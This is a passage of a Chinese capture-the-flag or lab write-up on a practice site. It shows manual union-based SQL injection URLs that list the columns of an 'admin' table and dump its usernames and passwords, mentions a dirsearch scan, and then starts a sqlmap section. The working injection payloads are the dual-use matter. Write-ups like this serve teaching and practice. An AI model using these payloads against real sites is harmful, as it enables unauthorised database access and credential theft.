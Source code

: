 现在来查询`admin`表里有哪些字段

地址栏里输入：

```
http://pu2lh35s.ia.aqlab.cn/?id=1 and 1=2 union select 1,group_concat(column_name) from information_schema.columns where table_name = "admin"
```

回车后的页面：

![](https://pic1.imgdb.cn/item/646f70c3f024cca173f7ac96.jpg)

得到了 `admin`表下的所有字段名： `Id`,`username`,`password`

根据经验，`password`字段和`username`字段里肯定有“好东西”（`username`意思是用户名、`password`意思是密码）

> 当然，也可以去看看其他的字段里存什么数据

现在来查询`password`字段和`username`字段里有啥数据

地址栏里输入：

```
http://pu2lh35s.ia.aqlab.cn/?id=1 and 1=2 union select 1,group_concat(username) from admin
```

```
http://pu2lh35s.ia.aqlab.cn/?id=1 and 1=2 union select 1,group_concat(password) from admin
```

回车后的页面：

![](https://pic1.imgdb.cn/item/646f730df024cca173fb5863.jpg)

![](https://pic1.imgdb.cn/item/646f738cf024cca173fc34a4.jpg)

获取到了`username`：**admin**、`password`：**hellohack,zkaqbanban**

把**hellohack,zkaqbanban**拿去提交结果是错误的，给我看傻了好久，于是乎我把数据库里的所有表里的所有字段都翻了一遍，并没有所谓的“flag”

我就在想不会是要拿着用户名密码去**登后台**吧，我又用`dirsearch` 把网站的目录扫了一遍，并没有发现所谓的**后台登陆界面**

实在没办法我就把**hellohack**拿去提交，结果就正确了（雾）。

​	

### 使用工具sqlmap注入：

首先还是得先找到地址栏（URL）类似为：`http://xxxxxxx?id=数字`的页面

点击**查看新闻**的按钮

![](https://pic1.imgdb.cn/item/646f11ecf024cca1735e3427.jpg)

点完之后的URL为：`http://pu2lh35s.ia.aqlab.cn/?id=1`,符合要求

![](https://pic1.imgdb.cn/item/646f1268f024cca1735f35ba.jpg)


